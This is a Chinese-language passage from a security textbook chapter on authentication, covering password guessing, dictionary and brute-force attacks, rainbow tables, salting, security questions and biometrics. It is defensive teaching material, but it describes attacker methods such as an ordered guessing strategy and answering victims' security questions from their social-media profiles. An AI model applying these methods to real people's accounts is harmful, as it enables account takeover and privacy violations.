据美联社新闻报道 [THO11]，布朗克浏览 Facebook 页面寻找显示女性电子邮件地址的页面。然后他仔细阅读她们的 Facebook 个人资料，寻找线索以帮助回答安全问题，如最喜欢的颜色或父亲的中间名。利用这些个人资料线索，布朗克转向电子邮件服务提供商。使用与科内尔相同的技巧，布朗克假装忘记了“他的”（她的）密码，有时成功回答了找回密码所需的安全问题。他有时用相同技巧获取 Facebook 账户访问权限。

拿到女性密码后，他浏览她们的已发送邮件文件夹寻找尴尬照片；有时将这些照片发送给受害者的联系人或发布在她的 Facebook 页面上。他从 2009 年 12 月持续作案至 2010 年 10 月。警方没收其电脑分析后，发现 3200 个网络联系人和 172 个包含露骨照片的邮件文件；警方向所有联系人发送邮件询问是否受害，46 人回复确认。受害者分布在英国、华盛顿特区，以及从加利福尼亚到新罕布什尔的 17 个州。

加利福尼亚州检察长办公室建议电子邮件和社交网站用户选择未发布在公共网站上的安全问题和答案，或在常见安全答案中添加数字或其他字符。更多安全提示见检察长网站。

###### 密码的使用

密码的使用相当简单，您可能已从经验中了解。用户输入某个标识信息，如姓名或分配的用户 ID；此标识可以是公开的，也可以是易于猜测的，因为它不提供真正的保护。保护系统随后向用户请求密码。如果密码与档案中该用户的密码匹配，用户即通过认证并被允许访问。如果密码匹配失败，系统会再次请求密码，以防用户输错。

#### 尽管密码被广泛使用，但它们存在一些使用困难：

* **使用**。为每次访问对象提供密码可能既不方便又耗时。
* **泄露**。如果用户向未经授权的个人泄露密码，该对象将立即变得可访问。如果用户随后更改密码以重新保护对象，则必须通知任何其他合法用户新密码，因为他们的旧密码将失效。
* **撤销**。要撤销某用户对对象的访问权限，必须更改密码，从而导致与泄露相同的问题。
* **丢失**。取决于密码的实现方式，可能无法找回丢失或遗忘的密码。操作员或系统管理员当然可以介入并提供新密码，但他们通常无法确定用户之前选择了什么密码。如果用户丢失（或忘记）密码，管理员必须分配一个新密码。

##### 攻击与保护密码

密码本身有多安全？由于密码包含的信息位数相对较少，作为保护装置它们在一定程度上受到限制。更糟糕的是，人们选择的密码甚至无法利用可用的位数：选择众所周知的字符串，例如 `qwerty`、`password` 或 `123456`，会将攻击者的不确定性或难度本质上降低到零。

Knight 和 Hartley [KNI98] 按顺序列出了攻击者为确定密码可能尝试的 12 个步骤。这些步骤按难度递增（猜测次数）排序，因此它们表明攻击者必须付出多大努力才能推导出密码。以下是他们的密码猜测步骤：

* 无密码
* 与用户 ID 相同
* 是用户姓名，或源自用户姓名
* 在常用词表中（例如 `password`、`secret`、`private`）加上常用名字和模式（例如 `qwerty`、`aaaaaa`）
* 包含在小型大学词典中
* 包含在完整的英语词表中
* 包含在常用非英语词典中
* 包含在带有大小写变化（`PaSsWorD`）或替换（数字 `0` 代替字母 `O`，以此类推）的小型大学词典中
* 包含在带有大小写变化或替换的完整英语词典中
* 包含在带有大小写变化或替换的常用非英语词典中
* 通过暴力破解获得，尝试所有可能的字母字符组合
* 通过暴力破解获得，尝试全字符集的所有可能组合

尽管最后一步总会成功，但其前几步极其耗时，足以阻挡除时间不是限制因素的最执着攻击者之外的所有人。

***

**每个密码都可以被猜到；密码强度取决于需要多少次猜测。**

***

我们现在详细阐述其中一些方法。

#### 字典攻击

一些网络站点发布短语词典、科幻人物名字、地名、神话名字、中文词汇、意第绪语词汇和其他专业列表。这些列表帮助站点管理员识别选择了弱密码的用户，但同样的字典也可被那些没有如此细心管理员的站点的攻击者利用。`COPS` [FAR90]、`Crack` [MUF92] 和 `SATAN` [FAR95] 实用程序允许管理员扫描系统中的弱密码。但这些相同的实用程序，或其他自制工具，也允许攻击者做同样的事情。现在互联网站点提供所谓的密码恢复软件作为免费软件或共享软件，价格在 20 美元以下。（这些是密码破解程序。）

人们以为通过选择简单密码并替换某些字符会很聪明，例如用 `0`（零）代替字母 `O`，用 `1`（一）代替字母 `I` 或 `L`，用 `3`（三）代替字母 `E`，或用 `@`（at）代替字母 `A`。但用户并不是唯一能想出这些替换方法的人。

###### 推断用户可能使用的密码

如果 Sandy 正在选择密码，她很可能不会完全随机地选一个词。大多数情况下，Sandy 的密码对她来说有特殊含义。人们通常选择个人化的密码，例如配偶、孩子、其他家庭成员或宠物的名字。对于任何特定的人，这种可能性只有十几到二十个。计算机尝试这么多密码远不到一秒！即使人工操作，也能在一两分钟内尝试十个可能的候选密码。

因此，理论上看似强大的东西，在实践中实际上非常脆弱，成功渗透的可能性高得惊人。Morris 和 Thompson [MOR79] 在其报告中确认了我们的担忧，该报告展示了从许多用户收集密码的结果，见 表 2-1。图 2-1（基于该研究的数据）显示了收集到的 3,289 个密码的特征。该研究的结果令人沮丧，而今天的情况很可能依然如此。在这些密码中，86% 可以在约一周的 24 小时全天候测试中被破解，这是基于每次密码检查 1 毫秒的非常慷慨的估算。



**表 2-1** 密码特征



**图 2-1** 密码类型分布

以免你认为这些结果已过时（它们报告于 1979 年），Klein 在 1990 年 [KLE90] 重复了该实验，Spafford 在 1992 年 [SPA92a] 也重复了该实验。每人收集了约 15,000 个密码。Klein 报告称，仅用 15 分钟的机器时间（按 1990 年代计算机速度）就猜中了 2.7% 的密码，一周内猜中了 21%！Spafford 发现平均密码长度为 6.8 个字符，且 28.9% 仅由小写字母组成。

随后，2002 年英国在线银行 Egg 发现其用户仍在选择弱密码 [BUX02]。其在线银行服务的密码中，整整 50% 是家庭成员的名字：23% 是孩子的名字，19% 是配偶或伴侣，9% 是他们自己的名字。遗憾的是，宠物名字仅占 8%，而名人和足球明星各占 9% 并列。1998 年，Knight 和 Hartley [KNI98] 报告称，约 35% 的密码是从账户所有者姓名的音节和首字母推导出来的。2009 年 12 月，计算机安全公司 Imperva 分析了 3400 万个之前意外泄露的 Facebook 密码，报告称：

* 约 30% 的用户选择了少于七个字符的密码。
* 近 50% 的人使用名字、俚语、字典单词或琐碎密码——连续数字、相邻键盘键等。
* 最流行的密码包括 `12345`、`123456`、`1234567`、`password` 和 `iloveyou`，均位列前十。

我们认识的两位朋友在我们帮他们管理系统时告诉了我们他们的密码，他们的密码都会在我们最先猜测的名单中。但你会说，这些是不了解弱密码安全风险的外行。在最近的一次会议上，一位安全专家讲述了这样的经历：他以为自己选了一个可靠的密码，于是邀请一班学生提问并猜测他的密码。他惊讶地发现，他们只问了几个问题就推断出了密码。而这是一位安全专家！

从这些事件中我们得出的结论是：人们选择弱密码和容易被猜测的密码的频率比某些人预期的要高。显然，人们觉得密码流程中有某些东西是困难或令人不快的：要么人们无法选择好的密码，也许是因为当时的压力；要么他们担心会忘记可靠的密码。无论哪种情况，密码并不总是好的认证器。

###### 猜测可能的密码

想一个词。你想到的词长吗？它不常见吗？它难拼写或难发音吗？这三个问题的答案很可能都是“不”。

寻找密码的渗透者意识到这些非常人性化的特征，并利用它们为自己谋利。因此，渗透者会尝试那些可能导致快速成功的技术。如果人们更喜欢短密码而不是长密码，渗透者将计划尝试所有密码，但按长度顺序尝试。长度为 3 或更短的密码（不区分大小写）只有 $26¹ + 26² + 26³ = 18,278$ 个。测试那么多密码对人类来说困难但可能，但重复的密码测试是计算机的简单应用。按每毫秒尝试一个密码的假设速率，所有这些密码可以在 18.278 秒内检查完毕，用计算机几乎不构成挑战。即使将尝试扩展到 4 或 5 个字符，数量也分别仅增加到 475 秒（约 8 分钟）或 12,356 秒（约 3.5 小时）。

此分析假设人们选择 `vxlag` 和 `msms` 这样的密码与选择 `enter` 和 `beer` 的频率一样高。然而，人们倾向于选择他们能记住的名字或单词。许多计算系统拥有拼写检查器，可用于检查文档中的拼写错误和排版错误。这些拼写检查器有时携带最常用英语单词的在线词典。其中一个包含 80,000 个单词的词典。按每毫秒猜测一次的不切实际的慷慨估计，尝试所有这些单词作为密码仅需 80 秒。

没有人知道最流行的密码是什么，尽管有人推测是“password”。其他常见的有 `user`、`abc123`、`aaaaaa`（或 `aaaaa` 或 `aaaaaaa`）、`123456`，以及 `asdfg` 或 `qwerty`（键盘上的按键排列）。常见密码列表很容易找到（例如，<http://blog.jimmyr.com/Password_analysis_of_databases_that_were_hacked_28_2009.php>）。另请参阅 <http://threatpost.com/password-is-no-longer-the-worst-password/103746>，了解从 Adobe 公司的数据泄露中获得的最常用密码列表。从这些例子中你可以看出，人们经常使用脑海中浮现的任何简单事物作为密码，因此人工攻击者可能通过尝试几个流行密码而成功。

***

**常见密码——如 `qwerty`、`password`、`123456`——被惊人地频繁使用。**

***

###### 破解隐藏

比猜测密码更容易的就是从表中直接读取一个，就像 表 2-2 所示的示例表。操作系统通过询问姓名和密码来认证用户，然后必须验证它们，最有可能是通过与存储在表中的值进行比较。但该表随后成为作恶者的宝库：获取该表即可访问所有账户，因为它不仅包含一个，而是包含所有用户 ID 及其对应的密码。



**表 2-2** 示例密码表

操作系统通过不以公开形式存储密码，而是以隐藏形式（使用加密，我们将在本章后面描述）来挫败这种方法，如 表 2-3 所示。当用户创建密码时，操作系统接受并立即隐藏它，存储不可读版本。稍后当用户尝试通过输入用户 ID 和密码进行认证时，操作系统接受输入的任何内容，应用相同的隐藏函数，并将隐藏版本与存储的内容进行比较。如果两种形式匹配，认证通过。



**表 2-3** 带有隐藏密码值的示例密码表

***

**操作系统以隐藏（加密）形式存储密码，以使 ID-密码列表被泄露不会立即授予对所有用户账户的访问权限。**

***

在上一段中，我们使用了“隐藏”一词，因为有时操作系统执行的某种混淆形式并非真正的加密，有时它是受限形式的加密。唯一的关键点是该过程必须是单向的：将密码转换为其隐藏形式很简单，但反向操作（从隐藏版本开始推导出对应的密码）实际上是不可能的。（因此，在某些网站上，如果你忘记了密码，系统可以将你的密码重置为一个新的随机值，但无法告诉你遗忘的密码是什么。）

对于主动认证，即输入身份和认证器以访问系统，大多数系统会锁定连续登录尝试失败少量次数的用户。此失败计数可防止攻击者尝试超过几次猜测。（然而，请注意，此锁定功能给了攻击者一种阻止合法用户访问的方法：只需输入足够多的错误密码，导致系统锁定账户。）但是，如果攻击者获得了加密密码表并了解了隐藏算法，计算机程序可以在几分钟内轻松测试数十万次猜测。

正如本章众多研究证实的那样，人们经常使用少数可预测的密码之一。拦截者可以创建所谓的**彩虹表**，即常见密码隐藏形式的列表，如 表 2-4 所示。通过在拦截的密码表中搜索匹配条目，入侵者可以得知 Jan 的密码是 `123456`，Mike 的是 `qwerty`。攻击者对表进行排序以使查找变快。



**表 2-4** 常见密码的示例彩虹表

***

**彩虹表：预计算的流行值列表，如密码**

***

混淆后的密码还有另一个漏洞。请注意在 表 2-2 中，Pat 和 Roz 选择了相同的密码。两份副本将具有相同的隐藏值，因此拦截该表的人可以得知用户 Pat 和 Roz 拥有相同的密码。知道这一点后，拦截者还可以猜测 Pat 和 Roz 都选择了常见密码，并开始尝试常用的那些；一旦其中一个奏效，另一个也会奏效。


为了应对这两种威胁，一些系统使用一个称为**盐**的额外部分。盐是每个用户不同的额外数据字段，也许是账户创建的日期或用户名的一部分。盐值在隐藏转换前与密码连接。这样，`Pat+aaaaaa` 就有不同于 `Roz+aaaaaa` 的隐藏值，如表 2-5 所示。此外，攻击者无法构建彩虹表，因为常见密码现在也都有了唯一组件。



**表 2-5** 具有个性化隐藏密码值的示例密码表

***

**盐**：连接到加密密码的用户特定组件，用于区分相同的密码

***

## 穷举攻击

### 穷举攻击与暴力破解攻击

在**穷举**或**暴力破解**攻击中，攻击者会尝试所有可能的密码，通常以某种自动化方式进行。当然，可能的密码数量取决于特定计算系统的实现。例如，如果密码由 26 个字符 A–Z 组成，长度可以是 1 到 8 个字符，那么会有 26¹ 个单字符密码，26² 个双字符密码，以及 26⁸ 个 8 字符密码。因此，系统总共有 26¹ + 26² + ... + 26⁸ = 26⁹ – 1 ≅ 5 \* 10¹²（即五万亿）个可能的密码。这个数字看起来似乎大到难以穷举。如果我们用计算机以每毫秒检查一个密码的速度创建并尝试每个密码，测试所有 8 字母密码大约需要 150 年。但如果我们能将搜索速度提升到每微秒一个密码，工作量因子就会降至约两个月。如果回报丰厚，攻击者投入这段时间是合理的。例如，入侵者可能会尝试暴力破解包含信用卡号码或银行账户信息的文件的密码。

但通过多种方式，入侵时间可以变得更容易实现。搜索单个特定密码不一定需要尝试所有密码；入侵者只需尝试直到识别出正确密码为止。如果所有可能密码的集合分布均匀，入侵者可能只需尝试一半的密码空间：即找到任何特定密码所需的预期搜索次数。然而，入侵者也可以利用密码分布不均匀这一优势。因为密码必须被记住，人们倾向于选择简单的密码；因此，入侵者应先尝试短字符组合，再尝试长组合。这一特性减少了在找到匹配前搜索的密码空间子集，从而缩短了平均查找匹配的时间。正如我们之前所述，攻击者可以构建常用密码的彩虹表，将攻击工作量降低为简单的表查找。

所有这些破解密码的技术，加上可用性问题，表明我们需要寻找其他认证方法。在下一节中，我们将探讨如何实施强认证作为防御冒充攻击的控制手段。有关认证问题的另一个示例，请参阅 Sidebar 2-3。

### 良好的密码

精心选择的密码可以成为强有力的认证因子。“密码”一词暗示单个单词，但实际上你可以使用不存在的单词或短语。因此，`2Brn2Bti?` 可以是一个密码（源自“to be or not to be, that is the question”），`PayTaxesApril15th` 也可以。请注意，这些选择具有几个重要特征：字符串较长，从大字符集中选取，且不出现在字典中。这些属性使得密码难以（当然不是不可能）被破解。如果我们确实使用密码，可以通过一些简单的做法来提高其安全性：

* **使用除 a–z 以外的字符**。如果密码仅从字母 a–z 中选择，每个字符只有 26 种可能性。加入数字会将可能性扩展到 36 种。同时使用大小写字母和数字会将可能的字符数量扩展到 62 种。虽然这个变化看起来很小，但当有人测试所有可能字符组合的完整空间时，效果很大。测试所有仅由单一大小写字母组成的 6 字母单词大约需要 100 小时，但测试所有由大小写字母和数字组成的 6 符号密码大约需要 2 年。虽然 100 小时是可行的，但 2 年足以让这种攻击失去吸引力。

---

### Sidebar 2-3 真正的白金汉伯爵请站出来？

一名自称白金汉伯爵的男子被确认为 Charlie Stopford，他在 1983 年从佛罗里达的家庭中失踪，并假冒了 1963 年夭折的 8 个月大婴儿 Christopher Buckingham 的身份。2005 年在英国接受询问时，护照详情核查揭示了他与已故 Buckingham 婴儿的关联，因他不知其他关联家庭细节而被捕 [PAN06]。（他被捕时的职业？计算机安全顾问。）

英国当局知道他不是 Christopher Buckingham，但他的真实身份是什么？答案的发现仅因他的美国家人认为从照片和新闻报道中认出了他：Stopford 是一位丈夫和父亲，失踪了 20 多年。因为他曾在海军服役（还是军事情报部门），且成年后的指纹存档，当局得以确认身份。

至于他自封的头衔，自 1687 年以来就没有白金汉伯爵了。

在现代社会，我们习惯了从出生到死亡的完整文书记录，但并非所有人都完全符合该模型。考虑某些因各种原因需要改变身份的人的情况。当政府改变某人的身份时（例如证人保护计划），新身份包括学历记录、地址、就业记录等。

我们如何认证战乱难民的身份，他们的祖国可能已不复存在，更不用说民政政府和档案办公室？我们该如何认证出生于无正式出生记录的游牧部落的儿童？成年人在逃离敌对领土后，如何在不等待护照办公室两周办理文件的情况下确认身份？

---

* **选择长密码**。密码猜测难度的组合爆炸始于长度 4 或 5 左右。选择更长的密码会降低密码被破解的可能性。请记住，暴力破解一旦找到密码就可以停止。一些渗透者会尝试简单情况——已知单词和短密码——如果这些攻击失败，就会转向另一个目标。

* **避免使用实际姓名或单词**。理论上，有 26⁶ 个（约 3 亿个）6 字母“单词”（指任意字母组合），但一本好的大学词典中只有约 15 万个单词（忽略长度）。通过选择那 99.95% 的非单词，你迫使攻击者使用更长的暴力搜索，而不是缩短的字典搜索。

* **使用你能记住的字符串**。密码选择是一个两难困境。为了容易记住密码，你想要一个对你有特殊意义的密码。然而，你不希望别人能猜到这个特殊含义。一个容易记住的密码是 `UcnB2s`。那串看似不可能的乱码是“you can never be too secure”的简单变换。歌曲首字母、私人短语中不同单词的几个字母、或涉及难忘篮球比分的东西都是合理的密码示例。但不要太明显。破解工具也会测试替换，如用 0（零）代替 o 或 O（字母“oh”），用 1（一）代替 l（字母“ell”）或用 $ 代替 S（字母“ess”）。所以 `I10v3U` 已经在搜索文件中了。

* **为多个密码使用变体**。随着账户、网站和订阅的增加，个人很容易积累 50 或 100 个密码，这显然太多无法记忆。除非你使用技巧。从前面建议的短语开始：`Ih1b2s`（I have one brother, two sisters）。然后追加涉及实体名称前几个元音和辅音的模式：`Ih1b2sIvs` 用于 vIsa，`Ih1b2sAfc` 用于 fAcebook，以此类推。

### 密码管理原则

*   **定期更改密码**。即使你没有理由怀疑有人泄露了密码，也应该不时更改。攻击者可能通过获取旧列表或对加密列表进行穷举来破解密码系统。

*   **不要写下来**。注意：这一历史悠久的建议仅在物理安全是严重风险时才适用。拥有许多机器、服务器、应用程序或网站账户的人可能难以记住所有访问代码。将所有代码设为相同或使用不安全但易记的密码，可能比将密码写在受到合理保护的列表上风险更大。（显然，你不应将 PIN 码贴在银行卡上，也不应将密码贴在电脑屏幕上。）

*   **不要告诉任何人**。最简单的攻击是**社会工程学**，攻击者以某种方式联系系统管理员或用户以获取密码。例如，攻击者可能给用户打电话，声称是“系统管理员”，并要求用户验证密码。绝不应透露你的私人密码；合法管理员如有需要可绕过你的密码，其他人只是在试图欺骗你。

这些原则有助于选择可靠的密码，但也导致了另一个问题：人们选择简单密码，因为他们必须创建并记住太多密码。银行账户、电子邮件访问、图书馆服务、众多网站和其他应用程序似乎都需要密码。当替代方案是试图记住几十个甚至上百个强密码时（如侧边栏 2-4 所述），我们无法责怪用户倾向于对所有账户使用一个简单密码。

***

### 侧边栏 2-4：小处易用性与大处易用性

对于寻求合理控制的应用程序开发人员来说，密码似乎是保护资产的简单机制。但当许多应用程序都需要密码时，用户记住一两个密码的简单工作就变成了跟踪大量密码的噩梦。事实上，访问 [`www.passwordbook.com`](http://www.passwordbook.com) 表明用户通常难以管理密码集合。该网站介绍了一种廉价且易于购买的密码和登录组织工具。用供应商的话说，它是“忙碌的网站管理员或网络管理员的完整密码管理器……安全且简单，书不会崩溃！现在你可以在一本精装书中管理所有密码。”

虽然为一个应用程序管理一个密码或令牌似乎很容易（我们称之为“小处易用性”），但同时管理许多密码或令牌变成了一项艰巨的任务（“大处易用性”）。记住大量项目的问题自 1950 年代以来就有心理学文献记载，当时 Miller \[MIL56\] 指出人们通过将事物分解为记忆块来记忆，无论它们是数字、字母、单词还是其他可识别实体。Miller 最初记录了年轻成年人的记忆广度为七个（加减两个）记忆块。后续研究表明，记忆广度取决于记忆块的性质：较长的记忆块导致较短的记忆广度：数字为七个，字母为六个，单词为五个。其他因素也影响一个人的记忆广度。Cowan \[COW01\] 建议假设年轻成年人的工作记忆广度为四个记忆块，儿童和老年人更短。基于这些原因，易用性不仅应指导适当的密码构建选择（小处），还应指导安全架构本身（大处）。

***

### 其他已知因素

密码，或用户所知的某事物，是强认证的一种形式。密码易于创建和管理、使用成本低且易于理解。然而，用户太常选择容易记住但也正好容易被他人猜测的密码。此外，用户可能忘记密码或告诉他人。密码来自用户所知这一认证因素，不幸的是人们的大脑并不完美。

因此，提出了几种其他“用户所知”方法。例如，侧边栏 2-5 描述了采用用户知识而非密码的认证方法。然而，很少有用户知识认证技术经过充分测试，也很少有以有用方式扩展的；这些方法仍在研究中。

***

### 侧边栏 2-5：使用个人模式进行认证

Lamandé \[LAM10\] 报道 GrIDSure 认证系统 ([`www.gridsure.com`](http://www.gridsure.com)) 已集成到 Microsoft 的统一访问网关（UAG）平台。该系统允许用户使用基于从网格中选择的方格模式的一次性通行码进行认证。当用户希望访问时，会看到一个包含随机分配数字的网格；然后她输入与其选定模式对应的数字作为通行码。因为显示的网格数字每次呈现都会变化，该模式使输入的通行码成为一次性代码。GrIDSure 试图将“用户知识”方法从小处易用性扩展到大处易用性。许多研究人员（例如 \[SAS07, BON08, BID09\]) 已检查 GrIDSure 安全性和易用性的各个方面，结果好坏参半。GrIDSure 的使用与传统密码集合的使用相比如何仍有待观察。

同样，Confident Technologies 的 ImageShield 产品 ([www.confidenttechnologies.com](http://www.confidenttechnologies.com)) 要求用户通过从列表中选择三个类别来注册；类别可能是猫、汽车和花等。然后在认证时，向用户显示一个图片网格，一些来自用户类别，一些不来自。每张图片有一个 1 字符字母或数字。用户的一次性访问字符串是用户预选类别图片附带的字符。因此，如果图片包括标签为 A 的猫、标签为 7 的花和其他七张图片，用户的访问值将是 A7。图片、字符和位置每次访问都会改变，因此认证器也会随之不同。

此类认证方案基于用户易解但冒充者难以成功猜测的简单谜题。然而，对于新颖的认证方案，我们必须注意小处易用性和大处易用性现象：用户能记住网格上的方格、图片类别、最喜欢的度假胜地、公式 `2a+c` 以及许多其他不明显的事物吗？

***

### 安全问题

一些公司不用密码，而是使用（推定）只有正确的人才知道答案的问题。此类问题包括母亲婚前姓氏、童年街道名、第一辆汽车型号和最喜欢的老师姓名。用户在创建身份时选择相关问题并提供答案。

此类问题的弊端在于，某些问题的答案很容易确定，正如莎拉·佩林的电子邮件账户所发生的那样。随着大量公共记录在线可用，母亲的婚前姓氏和街道名称通常都能找到，而同学们也能猜出一小部分可能最喜欢的老师。Anitra Babic 及其同事 [[BAB09]](#bib01.html#bib_40) 记录了当前使用中许多所谓的秘密问题系统的弱点。Joseph Bonneau 和 Sören Preibusch [[BON10]](#bib01.html#bib_85) 对网站认证方法进行了详细调查，发现缺乏一致性，存在许多弱点，且网站数据的价值与其认证要求之间没有明显的相关性。

随着许多网站现在要求用户登录，密码变得令人压抑。但面对难以操作的系统时，用户往往会走捷径：选择简单的密码并在许多网站上重复使用。为了克服这一弱点，一些系统采用了一种无法被窃取、复制、遗忘、借出或丢失的认证形式：用户的属性，我们将在下一节讨论。将个人特征传递给远程服务器的技术需要的不仅仅是键盘和指针设备，但随着密码表泄露的增加，此类方法正变得越来越可行。

### 基于生物特征的认证：你是谁

**生物特征** 是生物学属性，基于人体的某些物理特征。生物特征认证技术的清单仍在不断增长。现在设备可以识别以下生物特征：

- 指纹
- 手部几何形状（手指的形状和大小）
- 视网膜和虹膜（眼睛的部分）
- 声音
- 笔迹、签名、手部动作
- 打字特征
- 手指或手部的血管
- 脸部
- 面部特征，如鼻子形状或眼距

与密码相比，生物特征认证具有优势，因为生物特征不会丢失、被盗、遗忘或共享，且始终可用，始终触手可及，可以说。这些特征难以伪造，甚至不可能伪造。

#### 生物特征认证器示例

许多物理特征都可作为认证器。在本节中，我们展示其中两个示例，一个用于手的大小和形状，另一个用于手部静脉的模式。

图 2-2 显示了一个手部几何读取器。用户将手放在传感器上，传感器检测手指的长度和宽度、曲率及其他特征。


**图 2-2** 手部几何读取器 (Graeme Dawes/Shutterstock)

富士通的一款认证设备读取手部静脉的模式。该设备不需要手与读取器之间的物理接触，这对卫生是一个优势。制造商声称误接受率为 0.00008%，误拒率为 0.01%，响应时间不到一秒。图 2-3 显示了该设备嵌入在计算机鼠标中，因此用户会自动通过认证。


**图 2-3** 手部静脉读取器 (图片使用许可由富士通 Frontech 提供)

#### 生物特征使用中的问题

生物特征伴随着几个问题：

- 生物特征相对*较新*，一些人发现其使用具有*侵入性*。例如，某些文化中的人们认为接受指纹采集是一种侮辱，因为他们认为只有罪犯才会被采集指纹。手部几何和面部识别（可从房间另一端的摄像头完成）几乎没有侵入性，但人们确实担心凝视激光束或将手指插入插槽。（参见 [[SCH06a]](#bib01.html#bib_548) 中人们抵制生物特征的一些示例。）

- 生物特征识别设备*成本高昂*，尽管随着设备普及，单台设备成本应会下降。尽管如此，为大公司每位员工的工作站配备读取器仍可能很昂贵。

- 生物特征读取器和比对可能成为*单点故障*。考虑一个将生物特征识别与支付方案关联的零售应用：正如一位用户所说，“如果我的信用卡无法识别，我还可以掏出第二张卡，但如果我的指纹不被识别，我只有这一个手指。”（指纹识别针对单个手指；一根手指的模式与另一根不同。）体力劳动者的指纹可能会随时间磨损，伤口或刺激可能会干扰指纹读取器。忘记密码是用户的过错；生物特征认证失败则不是。

- 所有生物特征读取器都使用*采样*并建立接受近似匹配的*阈值*。设备必须对生物特征进行采样，测量通常数百个关键点，并将该测量集与模板进行比较。特征在每次读取中略有不同，例如，如果你的脸倾斜，如果你按压手指的一侧多于另一侧，或者如果你的声音受鼻窦感染影响。变化会降低准确性。

- 尽管设备准确性在提高，但*误读*仍会发生。我们将本应拒绝却被接受的读取（即认证器不匹配）标记为**误报**或**误接受**，将本应接受却被拒绝的读取标记为**漏报**或**误拒绝**。通常，降低误报率会增加漏报率，反之亦然。侧边栏 2-6 解释了为何我们永远无法消除所有误报和漏报。漏报的后果通常小于误报，因此可接受的系统可能具有 0.001% 的误报率但 1% 的漏报率。然而，如果人口众多且资产极其宝贵，即使这些小百分比也可能导致灾难性后果。

***

**误报**：错误地确认身份。

**漏报**：错误地拒绝身份。

***

***

### 侧边栏 2-6 误报和漏报的真正含义

筛选系统必须能够判断其匹配方案工作得有多好。也就是说，它们必须能够确定是否有效地识别出了正在寻找的人，同时不伤害那些未被寻找的人。当筛选系统将其拥有的东西（如存储的指纹）与其正在测量的东西（如手指的特征）进行比较时，我们称之为二分系统或测试：要么匹配，要么不匹配。

我们可以使用参考标准来描述这种二分法，如下面的表 2-6 所示。参考标准是确定何时阳性测试意味着阳性结果的一组规则。我们要避免两种错误：误报（本不该匹配却匹配了）和漏报（本该匹配却没匹配）。



**表 2-6** 描述二分测试的参考标准

我们可以使用四个标准度量来衡量筛选的成功率：灵敏度、患病率、准确率和特异性。要了解它们如何工作，我们为表 2-6 中的条目分配变量，如表 2-7 所示。



**表 2-7** 带变量的参考标准

#### 敏感度、特异度和准确度

*敏感度*衡量筛选系统选出与目标人员正确匹配的程度。它是所有可能的正确匹配中阳性结果的比例，计算公式为 `a / (a + c)`。*特异度*衡量所有非目标人员中阴性结果的比例；计算公式为 `d / (b + d)`。敏感度和特异度描述了测试区分具有某种条件的案例和不具有该条件的案例的能力。

*准确度*或功效衡量测试或筛选正确标记条件或情况的程度；其计算公式为 `(a + d) / (a + b + c + d)`。*患病率*告诉我们某种条件或情况有多常见。其计算公式为 `(a + c) / (a + b + c + d)`。


敏感度和特异度在统计学上是相关的：当其中一个增加时，另一个会减少。因此，你不能简单地说要减少或消除假阳性；这种做法必然会增加假阴性。相反，你必须在可接受的假阳性数量和假阴性数量之间找到平衡。为了辅助我们，我们计算测试的*阳性预测值*：一个表示阳性匹配实际代表找到目标人员的次数的数值。阳性预测值为 `a / (a + b)`。同样，我们可以将测试的*阴性预测值*计算为 `d / (c + d)`。我们可以利用预测值来判断结果何时可能为阳性或阴性。例如，高患病率条件的阳性结果很可能是真阳性。然而，罕见条件的阳性结果很可能是假阳性。

### 测试标准与 ROC 曲线

